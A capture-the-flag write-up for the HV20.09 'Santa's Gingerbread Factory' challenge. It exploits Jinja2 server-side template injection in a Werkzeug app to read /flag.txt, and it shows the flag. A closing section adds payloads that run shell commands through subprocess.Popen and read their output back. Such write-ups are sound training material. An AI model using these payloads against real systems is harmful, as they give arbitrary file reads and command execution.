



# HV20.09 Santa's Gingerbread Factory

## Introduction
_Here you can customize your absolutely fat-free gingerbread man._

_**Note:** Start your personal instance from the `RESOURCES` section on top._

##  Goal / Mission
_Besides the gingerbread men, there are other goodies there. Let's see if you can get the goodie, which is stored in `/flag.txt`._

---

This is how the page looks:


There is really not much going on except for the form to modify the bread man.
HTTP request is:
```
POST https://a3e39124-639d-43e4-a01e-f54e4104a6c3.idocker.vuln.land/
content-type: application/x-www-form-urlencoded

eyes=*&name=Hacker&btnSubmit=Get+Gingerbread
---
server: Werkzeug/1.0.1 Python/2.7.16

<html> .. </html>
```

There is a couple of parameters to play with. The server (most likely) runs on 
`Werkzeug/1.0.1 Python/2.7.16`.

I started fuzzing the params. I got lucky when I sent an emoji (😀) in the `name` param.  
Server spit back HTTP 500 and nice debugging info:



We are looking at https://werkzeug.palletsprojects.com/en/1.0.x/debug/.

At first, I thought that the path to solution is by entering the interactive console.
However, the console is protected by a pin. I spent next hour trying to get that pin
somehow but there is no way (I know of). 
Here is the [source code](https://github.com/pallets/werkzeug/blob/1.0.x/src/werkzeug/debug/__init__.py), looks solid.

I should have payed more attention to the error stack trace. It prints this code:
```python
def main(eyes="*", name="Hacker"):
  eyes = request.form.get('eyes', "*")
  name = request.form.get('name', "Hacker")

  text = Environment(loader=BaseLoader()).from_string("Hello, mighty " + name).render()

  print("Text: " + text)
  t = wrap(text, width=30)
  l = 0;
  for line in t:
    if len(line) > l:
      l = len(line);
```

There is an obvious **server-side template injection vulnerability**!

The templating language is [Jinja2](https://werkzeug.palletsprojects.com/en/1.0.x/tutorial/#step-8-templates).

I started looking for known vulnerabilities and found these 2 articles:
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://blog.nvisium.com/p255

Crafting the payload:
```
{{''.__class__}}
Hello, mighty <type 'str'>

{{''.__class__.mro()}}
Hello, mighty [<type 'str'>, <type 'basestring'>, <type 'object'>]

{{''.__class__.mro()[2].__subclasses__()}}
... tons of things, I'm looking for `file`

{{''.__class__.mro()[2].__subclasses__()[40]}}
Hello, mighty <type 'file'>

{{''.__class__.mro()[2].__subclasses__()[40]('/flag.txt', 'r').read()}}
HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}
```



The flag is `HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}`

---

💡 Fun fact, you can execute shell commands with:
```
{{''.__class__.mro()[2].__subclasses__()[258]}}
Hello, mighty <class 'subprocess.Popen'>

{{''.__class__.mro()[2].__subclasses__()[258]('ls /proc > /tmp/proc.txt', shell=True)}}
Hello, mighty <subprocess.Popen object at 0x7f357ea54a90>
```

Read their outputs:
```
{{''.__class__.mro()[2].__subclasses__()[40]('/tmp/proc.txt', 'r').read()}}
Hello, mighty 1 24 25 7 acpi buddyinfo bus cgroups cmdline consoles cpuinfo crypto devices diskstats ...
```
